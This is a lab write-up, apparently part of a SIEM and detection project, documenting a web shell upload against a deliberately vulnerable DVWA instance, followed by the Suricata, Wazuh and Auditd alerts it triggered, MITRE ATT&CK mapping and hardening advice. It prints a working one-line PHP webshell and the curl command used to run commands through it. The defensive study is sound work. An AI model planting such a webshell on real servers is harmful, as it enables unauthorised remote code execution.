







# Stage 05 — Web Shell Upload

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Phase 2 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-2-the-10-second-mistake-webshell-to-instant-root)
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/12.png) · [alert](../../06-Resources/screenshots/thehive-alert/6.png)

## Objective

Take advantage of an unrestricted file upload flaw in DVWA to drop a simple PHP webshell onto the server, verify we can run commands remotely, and establish our first code-execution foothold.

## Commands

```bash
# 1. Author lightweight PHP command execution web shell on Kali Linux
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

# 2. Upload shell.php via the DVWA File Upload form
# HTTP POST /vulnerabilities/upload/ with multipart/form-data containing /tmp/shell.php

# 3. Verify remote arbitrary command execution via HTTP GET query
curl -s "http://192.168.56.30/hackable/uploads/shell.php?cmd=id"

# Or accessed directly in the browser:
# http://192.168.56.30/hackable/uploads/shell.php?cmd=id
```

## What happened

1. **Writing the webshell:** On the Kali attack machine (`192.168.232.135`), I created a classic one-line PHP backdoor: `echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php`. When called, it takes whatever string is passed in the `cmd` URL parameter and hands it straight to Linux using PHP's built-in `system()` function.
2. **Uploading through the browser:** Logged in as `admin`, I opened DVWA's File Upload page (`/vulnerabilities/upload/`) and uploaded `/tmp/shell.php`. The application didn't validate file extensions, MIME types, or contents—it happily dropped the script right into the web folder and returned: `../../hackable/uploads/shell.php succesfully uploaded!`.
3. **Running our first command:** To prove remote code execution, I requested the uploaded file with `?cmd=id`: `http://192.168.56.30/hackable/uploads/shell.php?cmd=id`. Apache handed the request to PHP, which ran `id` and printed the output directly on screen: `uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)`. We now had arbitrary command execution on the Linux host as the `www-data` web account.

## Evidence

### Attack Screenshots


*Figure 5.1: Creation of lightweight PHP command execution web shell payload in /tmp/shell.php.*


*Figure 5.2: Application response confirming successful upload to ../../hackable/uploads/shell.php.*


*Figure 5.3: Web browser rendering output of id command executed via the uploaded web shell.*

### Alert Screenshots


*Figure 5.4: TheHive alert dashboard recording web shell command execution alerts (Alert #12 wzb-61ed72e937 / Alert #13 wzb-e9a1797ac4).*


*Figure 5.5: TheHive Alert #11 detail (Sub-events 21 & 22) detecting ET WEB_SERVER PHP System Command in HTTP POST and ET WEB_SERVER Exploit Suspected PHP Injection Attack (cmd=).*


*Figure 5.6: Linux Auditd Rule 100199 capturing /usr/bin/id execution spawned by www-data under Apache worker (PID 17550).*


*Figure 5.7: Suricata Rule 86601 alert (Alert #13 wzb-e9a1797ac4) detecting ET ATTACK_RESPONSE Output of id command from HTTP server.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive alert / Reference | Severity | Status |
|---|---|---|---|---|---|
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/vulnerabilities/upload/] [ET WEB_SERVER PHP System Command in HTTP POST]` | 100600 | TheHive Alert #11 (Sub-event 21, `6.1.png` / `wzb-6a22425401`) | Medium (2) | **Detected** |
| Suricata / Wazuh | `Suricata: [200] [192.168.232.135] [/hackable/uploads/shell.php?cmd=id] [ET WEB_SERVER Exploit Suspected PHP Injection Attack (cmd=)]` | 100600 | TheHive Alert #11 (Sub-event 22, `6.1.png` / `wzb-6a22425401`) | Medium (2) | **Detected** |
| Suricata / Wazuh | `Suricata: Alert - ET ATTACK_RESPONSE Output of id command from HTTP server` | 86601 | TheHive Alert #13 (`6.png`, `6.3.png` / `wzb-e9a1797ac4`) | Medium (2) | **Detected** |
| Wazuh (Auditd) | Command execution under www-data: `/usr/bin/id` (parent PID 17550) | Wazuh Auditd Rule 100199 (`web_process_creation`) | TheHive Alert #12 (`6.2.png` / `wzb-61ed72e937`) | High (3) | **Detected** |

## MITRE ATT&CK

| Tactic | Technique | ID |
|---|---|---|
| Persistence | Server Software Component: Web Shell | T1505.003 |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 |
| Initial Access | Exploit Public-Facing Application | T1190 |

## Detection opportunities

- **File Integrity Monitoring (FIM):** Turn on Wazuh Syscheck with real-time alerting on upload directories (`/var/www/html/.../uploads/`). Web applications should never allow newly uploaded `.php` or `.phtml` files without triggering an alert.
- **Process Lineage Anomaly Detection:** Web server daemons (`apache2`, `php-fpm`) should never spawn shell binaries or system commands like `/usr/bin/id`, `whoami`, or `cat /etc/passwd`. Auditd rule `web_process_creation` flagged `id` immediately.
- **Network Signatures on POST and GET:** Suricata caught both the PHP system tags in the POST upload body and the suspicious `?cmd=` query parameter in the GET request.
- **Outbound HTTP Response Inspection:** Suricata signature `ET ATTACK_RESPONSE Output of id command from HTTP server` caught the `uid=33(www-data)` string leaving the web server in the HTTP response.
- **Lock Down Upload Folders (The Real Fix):** Disable PHP execution completely inside upload folders (`php_flag engine off` in Apache) or mount upload directories with `noexec` so uploaded scripts cannot execute.

## Notes

- Unrestricted file upload gave us instant remote code execution without needing any OS credentials.
- This webshell became our stepping stone to launch an interactive Netcat reverse shell in Stage 06.
